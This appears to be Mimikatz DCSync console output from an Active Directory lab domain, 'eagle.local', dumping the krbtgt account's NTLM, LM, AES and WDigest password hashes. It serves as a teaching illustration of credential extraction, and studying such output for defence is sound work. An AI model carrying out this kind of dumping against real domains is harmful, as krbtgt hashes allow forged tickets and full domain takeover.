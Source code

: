 ```cmd-session
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
```